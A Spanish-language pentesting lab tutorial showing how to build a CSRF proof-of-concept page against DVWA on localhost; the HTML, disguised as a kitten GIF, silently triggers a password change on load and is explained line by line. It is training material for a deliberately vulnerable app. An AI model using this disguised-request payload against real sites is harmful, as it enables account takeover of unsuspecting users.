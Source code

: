 #### 🛠️ Paso a paso

1. Usamos un editor de texto como **nano** y creamos el archivo:

```bash
nano ~/Pentesting/DVWA/exploits/dvwa_csrf_low_poc.html
```

Si la carpeta Pentesting/DVWA/exploits no existe, la creamos antes con:

```
mkdir -p ~/Pentesting/DVWA/exploits
```

2. Una vez dentro del editor de texto nano, creamos la página HTML:

```html
<!doctype html>
<html>
  <body onload="document.images[0].src='http://127.0.0.1:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change'">
    <img style="display:none" alt="">
    <h1>😺 Mira este GIF de gatitos</h1>
  </body>
</html>
```

Guardamos el archivo con Ctrl + O, pulsamos Enter y salimos con Ctrl + X.

🧾 Explicación del HTML 

```html
<!doctype html>
<html>
```

- <!doctype html>: Indica que el documento usa HTML5.
- <html>: Comienza el contenido HTML de la página.

```html
<body onload="document.images[0].src='http://127.0.0.1:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change'">
```

- <body>: Contiene el contenido visible (y funcional) de la página.
- onload="...": Ejecuta el código JavaScript cuando la página termina de cargar.
- document.images[0].src = ...:
  - Accede a la primera imagen (<img>) del documento.
  - Le asigna una URL como fuente (src), lo que provoca que el navegador haga una petición      GET a esa URL.
  - La URL apunta a DVWA y contiene parámetros para cambiar la contraseña:
    - password_new=hacked: nueva contraseña.
    - password_conf=hacked: confirmación de la nueva contraseña.
    - Change=Change: valor del botón de envío.

⚠️ Aunque parece que se está cargando una imagen, en realidad se está disfrazando una petición maliciosa como si fuera una imagen. Esto es una técnica clásica en ataques CSRF.

